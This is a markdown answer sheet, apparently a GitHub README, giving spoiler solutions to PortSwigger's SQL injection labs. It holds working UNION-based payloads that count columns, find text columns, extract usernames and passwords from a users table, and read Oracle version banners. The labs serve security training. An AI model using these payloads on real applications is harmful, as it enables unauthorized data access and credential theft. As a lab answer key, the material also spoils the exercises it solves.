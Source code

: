 # [SQL Injection Labs](https://portswigger.net/web-security/all-labs)

This contains answers and spoilers to all of PortSwigger's SQL Injection labs.
Do not read unless explicitly looking for exact answers

## UNION - Determine number of columns

<details> 
  <summary> <b> ANSWER SPOILER ALERT </b> </summary>
      
  Identify number of columns by appending NULL to UNION SELECT string:  

    category=' UNION SELECT NULL,NULL,NULL--
  
</details>

## UNION - Find column containing text

<details> 
  <summary> <b> ANSWER SPOILER ALERT </b> </summary>
 
 Identify number of columns by appending NULL to UNION SELECT string:  
  
    category=' UNION SELECT NULL,NULL,NULL--
      
 Replace NULL with string to identify column:
  
    category=' UNION SELECT NULL,'[STRING]',NULL--
      
</details>

## UNION - Retrive data from other tables

<details> 
  <summary> <b> ANSWER SPOILER ALERT </b> </summary>
   
  Verify number of colums with the NULL payload:
  
    category=' UNION SELECT NULL,NULL--
    
  Verify they contain text:
  
    category=' UNION SELECT 'abc','def'--
    
  Retrieve data from users table:
  
    category=' UNION SELECT username, password FROM users--
  
  Login using administrator and password found from injection

</details>

## UNION - Retrieve multiple values in single column

<details>
  <summary><b> ANSWER SPOLER ALERT </b></summary>
  
  Verify Number of columns with UNION attack:
     
    category=' UNION SELECT NULL,NULL--
  
  Verify which columns contain text:
  
    ' UNION SELECT NULL,'abc'--
  
  Retrieve the information from the users table using string concatenation:
  
    ' UNION SELECT NULL,username || password FROM users--    
  
  Login with administrator password
  
</details>

## Oracle database type and version

<details>
  <summary><b> ANSWER SPOLER ALERT </b></summary>
    
  Retrieve database information:
  
    ' UNION SELECT BANNER, NULL FROM v$version--
  
</details>



